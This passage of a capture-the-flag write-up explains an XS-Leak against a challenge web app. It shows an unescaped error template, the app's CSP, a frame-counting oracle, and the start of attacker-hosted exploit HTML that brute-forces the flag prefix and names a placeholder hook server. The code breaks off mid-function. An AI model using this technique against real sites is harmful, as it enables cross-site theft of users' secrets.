 #### Step 4: XS-Leak with frame counting


The templete of the error page is
```html
<!-- snip -->
              </div>
              <div class="message-body">
                <%- msg %>
              </div>
            </article>
<!-- snip -->
```

Because this page outputs unescaped `msg`, you can cause Content Injection there. However, XSS Injection is banned by CSP:
```javascript
app.use((req, res, next) => {
  const nonce = crypto.randomBytes(32).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `default-src 'self'; script-src 'nonce-${nonce}'; base-uri 'none';`
  );
  req.nonce = nonce;
  next();
});
```

Now, consider the output of `msg` contains `<iframe></iframe>`.

If the error page is rendered, it increments `window.length`. However, if infinite redirects occur, the page is not rendered and `window.length` is not incremented.

By a well-known technique[^xs-leak], you can access the `window.length` from a cross-site page. So, you can detect whether infinite redirects have occurred.

[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/

#### Exploitation code

Therefore, you can construct an oracle to judge the prefix of a flag by combining the above steps.

You can steal the flag by serving the following pages on your server:

```html
<!-- index.html -->

<!DOCTYPE html>
<html>

<head>
</head>

<body>
  <script>

    const baseUrl = "http://web:3000";
    // const baseUrl = "http://localhost:3000";

    const hookUrl = "http://your-hook-server.example.com"

    const sleep = msec => new Promise(resolve => setTimeout(resolve, msec));
    const chars = "}_0123456789abcdefghijklmnopqrstuvwxyz".split("");

    const search = async (prefix) => {
      const w = open(`/post.html?prefix=${encodeURIComponent(prefix)}&url=${encodeURIComponent(baseUrl)}`);
      await sleep(1000);
      w.close();

```

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).